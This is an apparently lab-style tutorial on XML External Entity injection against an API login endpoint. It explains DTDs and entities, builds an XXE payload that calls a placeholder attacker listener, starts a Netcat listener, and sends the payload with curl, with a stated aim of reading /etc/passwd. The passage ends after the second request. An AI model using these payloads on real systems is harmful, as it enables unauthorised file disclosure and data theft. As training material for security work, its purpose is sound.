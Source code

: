 - We notice that an API is handling the user authentication functionality of the application.
- User authentication is generating XML data.

Let us try crafting an exploit to read internal files such as _/etc/passwd_ on the server.

First, we will need to append a DOCTYPE to this request.

What is a DOCTYPE?

DTD stands for Document Type Definition. A DTD defines the structure and the legal elements and attributes of an XML document. A DOCTYPE declaration can also be used to define special characters or strings used in the document. The DTD is declared within the optional DOCTYPE element at the start of the XML document. Internal DTDs exist, but DTDs can be loaded from an external resource (external DTD).

Our current payload is:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]>
<root>
<email>[email protected]</email>
<password>P@ssw0rd123</password>
</root>

```

We defined a DTD called _pwn_, and inside of that, we have an `ENTITY`.
We may also define custom entities (i.e., XML variables) in XML DTDs to allow refactoring of variables and reduce repetitive data. This can be done using the ENTITY keyword, followed by the `ENTITY` name and its value.

We have called our external entity _somename_, and it will use the SYSTEM keyword, which must have the value of a URL, or we can try using a URI scheme/protocol such as `file://` to call internal files.

Let us set up a Netcat listener as follows.

```shell
nc -nlvp 4444
listening on [any] 4444 ...

```

Now let us make an API call containing the payload we crafted above.

```shell
curl -X POST http://<TARGET IP>:3001/api/login -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]><root><email>[email protected]</email><password>P@ssw0rd123</password></root>'
<p>Sorry, we cannot find a account with <b></b> email.</p>

```

We notice no connection being made to our listener. This is because we have defined our external entity, but we haven't tried to use it. We can do that as follows.

```shell
curl -X POST http://<TARGET IP>:3001/api/login -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]><root><email>&somename;</email><password>P@ssw0rd123</password></root>'

```
